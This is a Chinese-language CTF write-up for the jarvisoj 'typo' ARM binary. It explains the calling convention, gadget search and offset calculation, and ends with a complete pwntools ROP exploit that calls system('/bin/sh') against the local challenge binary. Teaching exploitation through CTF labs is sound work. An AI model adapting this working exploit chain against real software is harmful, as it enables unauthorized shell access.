 ## Pwn

### jarvisoj - typo

```
// file
typo: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=211877f58b5a0e8774b8a3a72c83890f8cd38e63, stripped

// checksec
[*] '/tmp/tmp/typo'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8000)
```

輸入只有一個，並且在輸入大量字元後會有 segmentation fault，又因為是 statically linked，所以使用 ROP 做 exploit，目標是 `system("/bin/sh")`。

Arm 的 calling convention 如下:

| Registers | Use       | Comment                                           |
| --------- | --------- | ------------------------------------------------- |
| R0        | arg1      | function arguments / return value                 |
| R1        | arg2      | function arguments                                |
| R2        | arg3      | function arguments                                |
| R3        | arg4      | function arguments                                |
|           |           |                                                   |
| R4        | var1      | preserver value and callee saved                  |
| R5        | var2      | preserver value and callee saved                  |
| R6        | var3      | preserver value and callee saved                  |
| R7        | var4      | preserver value and callee saved                  |
| R8        | var5      | preserver value and callee saved                  |
|           |           |                                                   |
| R9        | var6      | variable or static base                           |
| R10       | var7 / sp | variable or stack limit                           |
| R11       | var8 / fp | variable or frame pointer                         |
| R12       | var9 / ip | variable or new static base for interlinked calls |
| R13       | sp        | staick pointer                                    |
| R14       | lr        | link back to calling routine                      |
| R15       | pc        | program counter                                   |

用 ROPgadget 找 ROP gadget `ROPgadget --binary ./typo --only "pop"` 以及 binsh 字串 `ROPgadget --binary ./typo --string "/bin/sh"`。

要控制第一個參數以及 pc，因此選擇 `0x00020904 : pop {r0, r4, pc}`。

offset 的部分，可以用 `cyclic` 求得:

```
pwndbg> cyclic 200
aaaabaaacaaadaaa...
pwndbg> c
pwndbg> cyclic -l 0x62616164
112
```



exploit:

```python
#!/usr/bin/python3
 
from pwn import *
import sys 
 
context.arch = 'arm'
 
pop_r0_r4_pc = 0x00020904 # pop {r0, r4, pc}
binsh = 0x0006c384 # /bin/sh
_system = 0x110B4
offset = 0x70 # 112 == input(0x70-0xC) + 0x8 + fp (old_ebp, 0x4)
 
payload = offset * b'\xff' + p32(pop_r0_r4_pc) + p32(binsh) + p32(0) + p32(_system)
 
if len(sys.argv) > 1:
    r = process(["qemu-arm", "-g", "4000", "./typo"])
    input("wait to attach")
else:
    r = process("./typo")                                                                                                                       
r.sendafter("Input ~ if you want to quit", "\n")
r.sendafter("------Begin------", payload)
 
r.interactive()
```

